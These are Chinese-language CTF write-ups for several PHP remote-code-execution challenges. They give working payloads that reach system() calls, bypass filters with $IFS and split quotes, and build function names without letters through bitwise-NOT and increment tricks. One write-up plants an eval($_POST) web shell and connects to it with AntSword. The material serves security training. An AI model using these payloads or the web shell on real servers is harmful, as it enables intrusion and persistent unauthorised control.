






##### [SWPUCTF 2021 新生赛]easyrce

[NSS](https://www.ctfer.vip/problem/424)

- `?url=system("ls /");`

- `?url=system("cat /f*");`

##### [SWPUCTF 2021 新生赛]babyrce

[NSS](https://www.ctfer.vip/problem/425)

- 抓包，添加 `Cookie: admin=1` 。
- `?url=ls$IFS""/`
- `?url=cat$IFS""/f*`

##### [SWPUCTF 2021 新生赛]hardrce

[NSS](https://www.ctfer.vip/problem/439)

###### 题解

- 使用脚本构造 payload ：

  

  得到：

  

- 继续构造 payload ：

  

  得到：

  

###### payload解析

```
(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
/*
%8C%86%8C%8B%9A%92 = ~system
so
~%8C%86%8C%8B%9A%92 = ~~system = system
外加括号作用是限定“~”的作用域，如果是 ~%8C%86%8C%8B%9A%92(~%93%8C%DF%D0);
那么第一个“~”遇见“(”的时候会不知所措：哈？前面没有括号告诉我要到哪截止啊？这里出现个“(”是什么鬼？计算机没有人的推理能力，它不会自己推出这种情况下第一个“~”的作用域是什么，必须明确规定它才会理解，因而导致解析失败，eval无法执行。
整个过程是：
“(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);”传到后端变成“(~xxx)(~xxx);”
绕过正则匹配来到eval，然后eval将“(~xxx)(~xxx);”做为PHP代码执行。
先变成“(system)(ls /);”，再执行。 //编译器会自动包裹引号
你不能妄想构造一个payload，它最终会变成“system(ls /)”，因为需要限制“~”的作用域，所以是达不到的。
*/
```

###### NOTICE

- 编译器会自动包裹引号，所以你用 `"system` 和 `(ls /)"` （即`"system(ls /)"`）取反、编码，最终会变成 `eval(""system(ls /);"")` ，反而无法执行。
- 用 `system` 和 `('ls /')` （即`system('ls /')`）取反、编码也不行，单引号不能参与取反操作，否则整个语句无法解析。 `(~%8C%86%8C%8B%9A%92)(~'%93%8C%DF%D0');` 或 `(~%8C%86%8C%8B%9A%92)(~%27%93%8C%DF%D0%27);` 是可以的，前提是没有正则过滤单引号。
- 分号、括号也同单引号一样，不能参与取反操作，否则无法解析。
- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

##### [SWPUCTF 2021 新生赛]finalrce

[NSS](https://www.ctfer.vip/problem/438)

- `?url=l''s /|tee 1.txt`

- 访问 xxx/1.txt
- `?url=c''at /flllll''aaaaaaggggggg|tee 2.txt` （"l"和"a"要断开，因为过滤了"la"）
- 访问 xxx/2.txt

##### [SWPUCTF 2021 新生赛]hardrce_3

[NSS](https://www.ctfer.vip/problem/467)

###### 前置知识

1、PHP 中数组的两种表示方法

```php
$a = array(0, 1, 2);
echo $a[0];
//输出0
#####
$a = [0, 1, 2];
echo $a[0];
//输出0
```

2、PHP 数组

```php
$a = [0, 1, 2]; //或$a=array(0, 1, 2);
echo $a."\n";
echo $a[0];
/*输出:
Array
0
并抛出错误"Array to string conversion"（数组转字符串）
故可知，将数组赋予变量，该变量将保存数组转字符串的结果"Array"，变量+下标将保存数组内的值
*/
```

3、PHP 函数不区分大小写

```php
EVAL("echo 1;");
//输出1
```

###### 题解

- 构造 payload：

  ```php
  $_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
  ```

  url 编码后再传入：

  ```
  %24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B'!'%3D%3D'%40'%5D%3B%24___%3D%24_%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24___.%3D%24__%3B%24____%3D'_'%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24__%3D%24_%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24__%2B%2B%3B%24____.%3D%24__%3B%24_%3D%24%24____%3B%24___(%24_%5B_%5D)%3B
  ```

- post 传入 `_=phpinfo();`
- Ctrl+F 查找 "disabled_functions" ，发现有 system、exec 和 shell_exec ，但没有 file_put_contents 。
- post 传入 `_=file_put_contents("1.php", "<?php eval($_POST['x']); ?>");`

- 访问 `xxx/1.php` ，蚁剑连接。

###### NOTICE

- payload 构造过程：

  ```php
  $_=[];
  $_=@"$_"; // $_='Array';
  $_=$_['!'=='@']; // $_=$_[0]; 即A
  $___=$_; // A
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
  $___.=$__; // S
  $___.=$__; // S
  $__=$_;
  $__++;$__++;$__++;$__++; // E 
  $___.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
  $___.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
  $___.=$__;
  
  $____='_';
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
  $____.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
  $____.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
  $____.=$__;
  $__=$_;
  $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
  $____.=$__;
  $_=$$____;
  $___($_[_]); // ASSERT($_POST[_]);
  ```

- 为什么偏偏构造 `ASSERT($_POST[_]);` ：payload 最短且操作空间最大，如果参数是函数容易被禁。

- ```php
  $_=[];
  $_=@"$_"; // $_='Array'; （1）
  $_=$_['!'=='@']; // $_=$_[0]; 即A （2）
  ```

  - （1）中 @ 为错误控制操作符，不要也可以。（1）不能省，必须有一个正式的转为字符串的过程，不然（2）中 $_ 的值将为空而不是 A 。

  - （2）中 `'!'=='@'` 部分可自由发挥。

- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

##### [UUCTF 2022 新生赛]ez_rce

[NSS](https://www.ctfer.vip/problem/3090)

###### 前置知识

printf 比 echo 好用：

```bash
echo(`ls`) #报错
echo `ls` #OK
printf(`ls`) #OK
printf `ls` #OK
```

###### 题解

- ?code=printf(\`dir /`);
  - ?code=printf \`dir /`; 是不行的，eval 不比 DOS 窗口，该包裹 () 的地方还是要包裹。
- ?code=printf(\`nl /fffffffffflagafag`);

##### [HNCTF 2022 Week1]Challenge__rce

[NSS](https://www.ctfer.vip/problem/2943)

###### 前置知识

1、

```php
$a = $a.[];
echo $a;
/*输出
Array
并抛出错误"Array to string conversion"（数组转字符串）
故可知，将数组与变量强行连接，该变量将保存数组转字符串的结果"Array"
*/
```

2、

```php
echo $_GET{cmd};
//可行，但会抛出错误
```

###### 题解

无字母可数字，但不能异或、或、取反，则只能自增。

因为限制了长度，纯自增也不行，但可自增构造 chr 函数。

- F12 → GET 传入 hint 。

- 构造 payload：($_GET{1})($\_GET{2})

  ```php
  $___.=[];$_=$___[3];$_++;$_++;$__=$_++;$_++;$_++;$_++;$__.=++$_.$___[2];$_=_.$__(71).$__(69).$__(84);($$_{1})($$_{2});
  ```

  url 编码：

  ```
  %24___.%3D%5B%5D%3B%24_%3D%24___%5B3%5D%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__%3D%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24__.%3D%2B%2B%24_.%24___%5B2%5D%3B%24_%3D_.%24__(71).%24__(69).%24__(84)%3B(%24%24_%7B1%7D)(%24%24_%7B2%7D)%3B
  ```

- 

- 

###### NOTICE

- payload 构造过程：

  ```php
  $___.=[]; //$___=Array
  $_=$___[3]; //$_=a
  $_++;$_++; //$_=c
  $__=$_++; //$__=c, $_=d
  $_++;$_++;$_++; //$_=g
  $__.=++$_.$___[2]; //$__=chr
  $_=_.$__(71).$__(69).$__(84); // $_=_GET
  ($$_{1})($$_{2}); //($_GET{1})($_GET{2})
  ```

- payload 必须 url 编码后传入才有效，在哪层就遵循哪层的规矩。

